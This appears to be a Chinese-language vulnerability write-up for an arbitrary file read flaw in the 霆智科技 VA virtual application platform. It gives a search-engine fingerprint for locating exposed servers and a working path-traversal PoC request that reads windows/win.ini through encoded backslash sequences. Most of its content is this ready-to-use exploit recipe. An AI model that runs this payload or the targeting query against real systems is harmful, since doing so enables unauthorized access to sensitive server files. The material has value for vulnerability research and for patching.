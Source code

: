 # 霆智科技 VA虚拟应用平台 任意文件读取漏洞

## 漏洞描述

霆智科技 VA虚拟应用平台 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感信息

## 漏洞影响

霆智科技 VA虚拟应用平台

## 网络测绘

```
body="EAA益和应用接入系统"
```

## 漏洞复现

登陆页面

![image-20230704111747376](./images/image-20230704111747376.png) 

验证POC

```
/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/windows/win.ini
```

![image-20230704112349037](./images/image-20230704112349037.png)